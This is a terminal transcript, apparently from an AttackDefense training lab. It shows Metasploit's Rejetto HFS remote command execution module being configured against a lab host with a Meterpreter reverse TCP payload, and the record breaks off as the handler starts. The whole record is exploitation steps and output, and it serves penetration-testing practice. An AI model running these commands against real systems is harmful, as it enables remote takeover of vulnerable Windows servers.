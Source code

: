 ```
root@attackdefense:~# service postgresql start && msfconsole -q
Starting PostgreSQL 13 database server: main.
msf6 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.16.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.0.20.230
RHOSTS => 10.0.20.230
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.16.2:4444 
[*] Using URL: http://0.0.0.0:8080/HH9f1Yros44lsM
```